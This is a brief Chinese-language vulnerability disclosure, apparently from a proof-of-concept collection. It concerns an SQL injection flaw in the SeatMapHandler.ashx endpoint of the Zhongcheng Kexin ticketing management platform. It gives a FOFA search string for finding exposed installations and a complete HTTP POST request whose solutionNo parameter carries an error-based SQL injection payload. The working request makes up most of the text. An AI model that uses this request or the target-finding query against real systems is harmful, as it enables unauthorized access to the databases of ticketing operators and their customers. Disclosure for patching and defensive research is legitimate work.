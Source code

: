 # 漏洞描述

中成科信专注于智慧景区、智慧剧院、智慧场馆票务系统研发,百余个成功案例,为您提供票务系统技术支持及票务营销方案。中成科信票务管理平台SeatMapHandler存在SQL注入漏洞

# 影响版本

中成科信票务管理平台

# fofa

body="技术支持：北京中成科信科技发展有限公司" 

# 漏洞复现

```yaml
POST /SystemManager/Comm/SeatMapHandler.ashx HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: ASPSESSIONIDCCRBRCTD=LHLBDIBAKDEGBCJGKIKMNODE
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

Method=GetZoneInfo&solutionNo=%27+AND+4172+IN+%28SELECT+%28CHAR%28104%29%2BCHAR%28101%29%2BCHAR%28108%29%2BCHAR%28108%29%2BCHAR%28111%29%29%29--+bErE
```